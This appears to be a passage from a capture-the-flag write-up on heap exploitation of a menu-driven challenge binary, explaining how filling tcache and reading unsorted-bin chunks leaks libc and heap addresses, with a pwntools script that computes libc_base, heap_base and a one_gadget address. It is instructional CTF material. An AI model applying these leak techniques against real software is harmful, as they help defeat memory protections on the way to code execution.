 ```py
    io.recvuntil('You command Mr. ')


if __name__=="__main__":
    
```

### MEMORY LEAKS

We have malloc and we have tcache. That's enough to get libc right? But how?

So here's the idea , we allocate 8 chunks , free 8 chunks , now 7 of them go into tcache and one remaining chunk goes into unsorted bin.

Now we can add back 7 chunks and consume all tcache , and adding one more will give us our unsorted bin chunk which we can read.

Reminding you that we have first 8 bytes on any malloc'd chunk exclusively reserved for **Priority**.

In order to get our beloved libc leak , we first need to make sure that all 8 bytes of **Priority** are occupied. This can be achieved by simply giving a size larger than 4 bytes which would trick **cdqe** into thinking it as negetive and thus filling up all 8 bytes of Priority.

Wait , what about Heap??

If we send two different chunks to unsorted bin , we can get unsorted bin chunks, one of whose bk pointer is heap.

Nice , so let's script it a bit.

```py
   if __name__=="__main__":
    send_name('aaaaa')

    #Initially we allocate 10 chunks
    for i in xrange(10): 
        add(123,'a')
    
    #Then we start filling tcache from 3rd chunk
    for i in xrange(3,10):
        free(i)
    #These two chunks go into unsorted bin chunks without merging.
    free(0)
    free(2)
    #Now we consume all 7 tcache chunks that we first filled
    for i in xrange(7):
        add(123123,'fill_tcache')
    #Finally , we get back our unsorted bin chunks whose bk pointers will give heap and libc.
    add('123456789123','a')
    add('123456789123','a')
    view(8)
    #Libc
    io.recvuntil('Command: ')
    libc_base = u64(io.recv(6) + '\x00'*2) - 0x3ebc61
    log.info("libc_base = " + hex(libc_base))
    one_gadget = libc_base + 0x10a38c
    #Heap
    view(9)
    io.recvuntil('Command: ')
    heap_base = u64(io.recv(6) + '\x00'*2) - 0x561
    log.info("heap_base = " + hex(heap_base))
    gdb.attach(io)
   
```

